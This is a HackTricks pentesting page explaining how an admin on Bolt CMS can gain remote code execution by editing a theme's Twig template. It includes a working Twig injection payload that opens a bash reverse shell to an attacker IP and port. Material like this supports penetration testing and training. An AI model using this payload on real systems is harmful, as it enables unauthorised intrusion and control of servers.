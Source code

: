 # Bolt CMS

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

* Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  * Check the value of theme

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

* Select `File management` -> `View & edit templates`
  * Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  * In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
* Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  * And save changes

<figure><img src="../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

* Clear the cache in `Maintenance` -> `Clear the cache`
* Access again the page as a regular user, and the payload should be executed

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
